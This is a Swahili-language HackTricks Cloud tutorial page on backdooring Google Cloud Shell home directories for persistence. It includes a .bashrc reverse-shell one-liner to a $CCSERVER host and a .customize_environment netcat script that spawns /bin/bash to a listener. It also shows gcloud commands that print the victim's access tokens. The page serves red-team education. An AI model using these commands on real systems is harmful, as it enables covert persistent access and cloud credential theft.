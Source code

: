 # GCP - Uhifadhi wa Cloud Shell

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* repos za github.

</details>

## Cloud Shell

Kwa habari zaidi angalia:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Mlango Nyuma wa Kudumu

[**Google Cloud Shell**](https://cloud.google.com/shell/) inakupa ufikiaji wa amri kwa rasilimali zako za wingu moja kwa moja kutoka kwenye kivinjari chako bila gharama yoyote inayohusiana.

Unaweza kupata Cloud Shell ya Google kutoka kwenye **konsoli ya wavuti** au kwa kukimbia **`gcloud cloud-shell ssh`**.

Konsoli hii ina uwezo wa kuvutia kwa wadukuzi:

1. **Mtumiaji yeyote wa Google mwenye ufikiaji wa Google Cloud** ana ufikiaji wa kipengele cha Cloud Shell kilichothibitishwa kabisa (Akaunti za Huduma zinaweza, hata ikiwa ni Wamiliki wa shirika).
2. Kipengele hicho kitabaki na **saraka yake ya nyumbani kwa angalau siku 120** ikiwa hakuna shughuli inayotokea.
3. Hakuna **uwezo wa shirika kufuatilia** shughuli ya kipengele hicho.

Hii kimsingi inamaanisha kwamba mdukuzi anaweza kuweka mlango nyuma kwenye saraka ya nyumbani ya mtumiaji na muda mrefu kama mtumiaji anajiunganisha na GC Shell kila siku 120 angalau, mlango nyuma utaendelea kuwepo na mduduzi atapata kibao kila wakati unapoendeshwa tu kwa kufanya:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Kuna faili nyingine katika folda ya nyumbani inayoitwa **`.customize_environment`** ambayo, ikiwepo, itatekelezwa **kila wakati** mtumiaji anapopata upatikanaji wa **cloud shell** (kama katika mbinu iliyopita). Ingiza mlango wa nyuma uliopita au moja kama ifuatavyo kudumisha uthabiti muda mrefu mtumiaji anapotumia "mara kwa mara" cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ni muhimu kuzingatia kwamba **wakati kitendo kinachohitaji uthibitisho kinatekelezwa kwa mara ya kwanza**, dirisha la idhini linatokea kwenye kivinjari cha mtumiaji. Dirisha hili lazima lipokelewe kabla ya amri kuendeshwa. Ikiwa dirisha lisilotarajiwa litatokea, linaweza kuzua shaka na kuhatarisha njia ya uthabiti inayotumiwa.
{% endhint %}

Hii ni dirisha la idhini kutoka kwa kutekeleza `gcloud projects list` kutoka kwa ganda la wingu (kama mshambuliaji) ikionekana kwenye kikao cha mtumiaji wa kivinjari:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hata hivyo, ikiwa mtumiaji ameitumia ganda la wingu kikamilifu, dirisha la idhini halitatokea na unaweza **kukusanya vibali vya mtumiaji na**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jinsi uhusiano wa SSH unavyoundwa

Kimsingi, maombi haya 3 ya API hutumiwa:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (itakufanya uongeze funguo yako ya umma uliyounda kwa kienyeji)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (itakufanya uanzishe kipengee)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (itakwambia anwani ya IP ya ganda la google cloud)

Lakini unaweza kupata habari zaidi katika [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Marejeo

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
